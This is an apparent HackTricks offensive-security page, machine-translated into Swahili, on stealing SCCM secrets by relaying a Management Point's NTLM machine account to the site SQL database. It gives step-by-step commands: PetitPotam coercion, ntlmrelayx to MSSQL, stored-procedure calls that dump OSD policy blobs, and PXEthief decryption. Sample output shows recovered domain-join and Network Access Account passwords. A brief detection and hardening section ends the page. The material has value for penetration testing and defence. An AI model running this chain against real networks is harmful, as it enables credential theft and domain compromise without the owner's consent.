 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
Kwa kulazimisha **System Center Configuration Manager (SCCM) Management Point (MP)** kuthibitisha kupitia SMB/RPC na **kupeleka** akaunti ya mashine ya NTLM kwa **hifadhi ya tovuti (MSSQL)** unapata haki za `smsdbrole_MP` / `smsdbrole_MPUserSvc`. Hizi ni nafasi zinazokuruhusu kuita seti ya taratibu zilizohifadhiwa zinazofichua **Operating System Deployment (OSD)** blobs (akili za Akaunti ya Ufikiaji wa Mtandao, mabadiliko ya Mchakato, nk.). Blobs zimeandikwa kwa hex/encrypted lakini zinaweza kufichuliwa na kufichuliwa kwa **PXEthief**, zikitoa siri za maandiko.

Mnyororo wa kiwango cha juu:
1. Gundua MP & hifadhi ya DB ↦ mwisho wa HTTP usio na uthibitisho `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Anza `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Lazimisha MP kwa kutumia **PetitPotam**, PrinterBug, DFSCoerce, nk.
4. Kupitia proxy ya SOCKS ungana na `mssqlclient.py -windows-auth` kama akaunti ya **<DOMAIN>\\<MP-host>$** iliyopelekwa.
5. Tekeleza:
* `use CM_<SiteCode>`
* `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
* `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (au `MP_GetPolicyBodyAfterAuthorization`)
6. Ondoa `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Siri kama `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, nk. zinapatikana bila kugusa PXE au wateja.

---

## 1. Kuorodhesha mwisho wa MP usio na uthibitisho
Kiendelezi cha MP ISAPI **GetAuth.dll** kinatoa vigezo kadhaa ambavyo havihitaji uthibitisho (isipokuwa tovuti ni ya PKI pekee):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Inarudisha funguo ya umma ya cheti cha saini ya tovuti + GUIDs za vifaa vya *x86* / *x64* **All Unknown Computers**. |
| `MPLIST` | Inataja kila Management-Point katika tovuti. |
| `SITESIGNCERT` | Inarudisha cheti cha saini ya Tovuti Kuu (tambua seva ya tovuti bila LDAP). |

Pata GUIDs ambazo zitakuwa kama **clientID** kwa maswali ya DB baadaye:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
---

## 2. Peleka akaunti ya mashine ya MP kwa MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
-u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
Wakati shinikizo linapowaka unapaswa kuona kitu kama:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
---

## 3. Tambua sera za OSD kupitia taratibu zilizohifadhiwa
Unganisha kupitia proxy ya SOCKS (bandari 1080 kwa chaguo-msingi):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
Switch to the **CM_<SiteCode>** DB (tumia msimbo wa tovuti wa tarakimu 3, e.g. `CM_001`).

### 3.1  Tafuta GUIDs za Kompyuta zisizojulikana (hiari)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
### 3.2 Orodha ya sera zilizotolewa
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
Kila safu ina `PolicyAssignmentID`, `Body` (hex), `PolicyID`, `PolicyVersion`.

Zingatia sera:
* **NAAConfig**  – Akounti za mtandao za NAA
* **TS_Sequence** – Vigezo vya Mchakato wa Kazi (OSDJoinAccount/Password)
* **CollectionSettings** – Inaweza kuwa na akaunti za run-as

### 3.3  Pata mwili kamili
Ikiwa tayari una `PolicyID` & `PolicyVersion` unaweza kupuuzilia mbali hitaji la clientID kwa kutumia:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> MUHIMU: Katika SSMS ongeza "Wahusika Wengi Waliorejeshwa" (>65535) au blob itakatwa.

---

## 4. Fanya ufafanuzi na ufichue blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
Mfano wa siri zilizorejelewa:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
---

## 5. Majukumu na taratibu za SQL zinazohusiana
Wakati wa relay, kuingia kunapangwa kwa:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

Majukumu haya yanaonyesha idadi kubwa ya ruhusa za EXEC, zile muhimu zinazotumika katika shambulio hili ni:

| Taratibu Iliyohifadhiwa | Kusudi |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | Orodha ya sera zilizotumika kwa `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Rudisha mwili kamili wa sera. |
| `MP_GetListOfMPsInSiteOSD` | Iliyorejeshwa na njia ya `MPKEYINFORMATIONMEDIA`. |

Unaweza kuchunguza orodha kamili na:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
AND  pe.permission_name='EXECUTE';
```
---

## 6. Ugunduzi & Kuimarisha
1. **Fuatilia logins za MP** – akaunti yoyote ya kompyuta ya MP inayoingia kutoka IP ambayo si mwenyeji wake ≈ relay.
2. Wezesha **Ulinzi wa Kupanuliwa kwa Uthibitishaji (EPA)** kwenye hifadhidata ya tovuti (`PREVENT-14`).
3. Zima NTLM zisizotumika, lazimisha saini ya SMB, punguza RPC (
mipango sawa iliyotumika dhidi ya `PetitPotam`/`PrinterBug`).
4. Imarisha mawasiliano ya MP ↔ DB kwa kutumia IPSec / TLS ya pamoja.

---

## Tazama pia
* Misingi ya NTLM relay:

{{#ref}}
../ntlm/README.md
{{#endref}}

* Unyanyasaji wa MSSQL & baada ya unyanyasaji:

{{#ref}}
abusing-ad-mssql.md
{{#endref}}



## Marejeo
- [Ningependa Kuongea na Meneja Wako: Kuiba Siri kwa Kutumia Management Point Relays](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [Meneja wa Makosa – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}

